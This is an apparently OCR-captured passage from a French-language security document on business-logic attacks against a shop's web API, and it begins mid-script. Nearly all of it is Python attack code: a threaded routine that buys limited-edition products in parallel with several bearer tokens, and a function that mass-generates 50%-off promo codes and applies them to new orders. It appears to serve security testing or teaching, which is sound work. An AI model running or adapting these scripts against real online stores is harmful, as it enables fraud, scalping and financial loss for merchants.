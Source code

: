 ```python
                args=(product_id, self.tokens[i])
            )
            threads.append(thread)
            thread.start()
        
        for thread in threads:
            thread.join()
    
    def purchase(self, product_id, token):
        """Effectue l'achat"""
        headers = {"Authorization": f"Bearer {token}"}
        response = requests.post(
            f"{self.base_url}/api/business/purchase/limited-edition",
            headers=headers,
            json={"productId": product_id, "quantity": 1}
        )
        
        if response.status_code == 200:
            print(f"Achat réussi: {response.json()}")
```

### Scénario 2 : Farming de codes promo
```python
def farm_promo_codes(base_url, count=1000):
    """Génère massivement des codes promo"""
    codes = []
    
    for i in range(count):
        response = requests.post(
            f"{base_url}/api/business/promo/generate",
            json={"discountPercent": 50}
        )
        
        if response.status_code == 200:
            code = response.json()['promoCode']
            codes.append(code)
    
    # Appliquer les codes sur des commandes
    for code in codes:
        # Créer une commande minimale
        order_response = requests.post(f"{base_url}/api/orders", 
            json={"items": [{"productId": 1, "quantity": 1}]})
        
        order_id = order_response.json()['orderId']
        
        # Appliquer le code
        requests.post(
            f"{base_url}/api/business/promo/apply",
            json={"orderId": order_id, "promoCode": code}
        )
    
    return codes
```
